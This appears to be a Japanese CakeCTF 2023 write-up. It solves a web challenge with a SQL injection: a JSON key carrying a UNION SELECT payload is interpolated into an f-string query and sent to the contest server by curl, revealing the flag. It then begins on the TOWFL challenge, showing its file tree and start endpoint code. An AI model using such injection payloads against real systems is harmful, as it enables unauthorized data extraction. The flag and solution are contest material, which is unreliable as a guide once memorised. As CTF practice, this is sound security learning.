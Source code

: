 ```json
{"code": {"')UNION SELECT flag FROM flag; --": 10, "a": 20}}
```
試しにpythonで動かしてみると、次のようになるため、サーバー上ではflagについても問い合わせるようなSQL文として解釈されるはずです。
```python
>>> code = {"')UNION SELECT flag FROM flag; --": 10, "a": 20}
>>> print(f"SELECT name FROM country WHERE code=UPPER('{code}')")
SELECT name FROM country WHERE code=UPPER('{"')UNION SELECT flag FROM flag; --": 10, 'a': 20}')
```
これをcurlで`/api/search`にPOSTするとflagが得られました。
```
vagrant@vagrant:~/repo/cakectf2023/web/towfl/service$ curl -X POST -H "Content-Type: application/json" -d "{\"code\": {\"')UNION SELECT flag FROM flag; --\": 10, \"a\": 20}}" http://countrydb.2023.cakectf.com:8020/api/search
{"name":"CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}"}
```
よってflagは`CakeCTF{b3_c4refUl_wh3n_y0U_u5e_JS0N_1nPut}`です。

### TOWFL [cheat, web]
開催期間中に解けなかった問題です。

問題サイトにアクセスしStart Examを押すと、狼語(？)のまるでTOEFL(もしくはTOEIC)かのような4択問題が10*10問出題されます。これで100点（1問1点）が取れればflagが得られるようです。
サイトを構築しているソースファイル群は以下のようになっています。
```
.
├── docker-compose.yml
├── redis
│   ├── Dockerfile
│   └── redis.conf
└── service
    ├── app.py
    ├── Dockerfile
    ├── static
    │   ├── fonts
    │   │   └── hymmnos.ttf
    │   ├── img
    │   │   └── towfl.webp
    │   └── js
    │       └── script.js
    ├── templates
    │   └── index.html
    └── uwsgi.ini
```
`app.py`を確認すると、4つのエンドポイントがあることが分かります。
- POST `/api/start`
- GET `/api/question/<int:qid>`
- POST `/api/submit`
- GET `/api/score`

それぞれ次のようになっていました。
```python
@app.route("/api/start", methods=['POST'])
def api_start():
    if 'eid' in flask.session:
        eid = flask.session['eid']
    else:
        eid = flask.session['eid'] = os.urandom(32).hex()

    # Create new challenge set
    db().set(eid, json.dumps([new_challenge() for _ in range(10)]))
    return {'status': 'ok'}
```
`/api/start`にPOSTリクエストを送ると、ランダムでsession id(`eid`)を付与し、この番号を使って
redisデータベースに新しい問題を作成します。
